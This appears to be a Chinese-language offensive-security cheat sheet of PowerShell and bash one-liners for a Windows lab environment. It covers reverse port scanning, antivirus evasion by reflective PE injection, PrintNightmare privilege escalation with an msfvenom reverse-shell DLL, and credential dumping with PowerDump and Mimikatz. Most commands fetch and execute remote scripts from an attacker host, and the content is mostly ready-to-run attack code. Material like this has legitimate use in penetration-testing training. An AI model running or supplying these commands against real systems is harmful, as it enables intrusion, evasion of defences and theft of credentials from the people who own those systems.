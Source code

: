 ```
powershell -ep bypass -nOp -c "iex (iwr <http://192.168.119.248/port-scan-tcp.ps1> -UseBasicParsing);port-scan-tcp 192.168.119.248 (21,22,23,53,80,139,389,443,445,636,1433,3128,8080,3389,5985);"
```

如果你在 powershell 中有输出，你可以看到目标可以通过哪些端口联系你，然后打开你的一组端口（delivery, reverse shell, smb servers, etc）。如果你没有输出（blind command），你仍然可以通过使用 wireshark 或 tcpdump 来查看你在哪些端口收到数据包。记住，数据包将使用PREROUTING进行路由，所以netcat将无法看到原始的目标端口。

在Linux上用bash逆向扫描tcp端口。

```
export ip=<IP>; for port in $(seq 20 6000); do nc -zv -w1 $ip $port& done
```

### **2. Damn AV, how to bypass it to run my exe?**

使用Powershell PE反射性注入。

```
# Use reflective PE injection over SMB:
powershell -ep bypass -sta -nop -c "iex (iwr <http://IP/empire.ps1> -UseBasicParsing); $PEBytes = [IO.File]::ReadAllBytes('\\\\IP\\\\Share\\\\File'); Invoke-ReflectivePEInjection -PEBytes $PEBytes"
# Over HTTP:
powershell -ep bypass -nop -c "iex (iwr <http://IP/Invoke-ReflectivePEInjection.ps1.1> -UseBasicParsing);Invoke-ReflectivePEInjection -PEURL <http://IP/file.exe>"
```

虽然，在现实中，最有可能被AV屏蔽的是powerhell脚本（需要绕过AMSI）。

[带有 PEBytes 版本的脚本](https://github.com/PowerShellMafia/PowerSploit/blob/master/CodeExecution/Invoke-ReflectivePEInjection.ps1)

[带有 PEUrl 版本的脚本](https://github.com/EmpireProject/Empire/blob/master/data/module_source/code_execution/Invoke-ReflectivePEInjection.ps1)以下是一些go反弹shell的列表：

https://gist.github.com/yougg/b47f4910767a74fcfe1077d21568070e

我使用[乱码](https://github.com/burrowers/garble)进行混淆，但请记住，**大多数混淆技术实际上会增加**脚本和二进制文件的可疑性。

### **3. 没有meterpreter getystem并得到SeLoadDriverPrivilege?**

使用 Print Nightmare, 我在实验室里用它取得了很大的成功：

```
msfvenom -p windows/shell/reverse_tcp LHOST=<IP> LPORT=<PORT> -f dll -o revshell.dll
wget <https://raw.githubusercontent.com/calebstewart/CVE-2021-1675/main/CVE-2021-1675.ps1>
python -m http.server 80
powershell -ep bypass -nop -c "iwr <http://IP/revshell.dll> -OutFile C:\\WINDOWS\\Temp\\revshell.dll;iex (iwr <http://IP/Invoke-Nightmare.ps1> -UseBasicParsing);Invoke-Nightmare -DLL C:\\WINDOWS\\Temp\\revshell.dll"
```

[Script](https://github.com/calebstewart/CVE-2021-1675)

### **4. 想要dump creds?**

```
powershell -ep bypass -nop -c "iex (iwr <http://IP/Invoke-PowerDump.ps1> -UseBasicParsing);Invoke-PowerDump"

powershell -ep bypass -nop -c "iex (iwr <http://IP/Invoke-Mimikatz.ps1> -UseBasicParsing); Invoke-Mimikatz -Command '"privilege::debug" "token::elevate" "sekurlsa::logonpasswords" "lsadump::lsa /inject" "lsadump::sam" "exit"'"
```
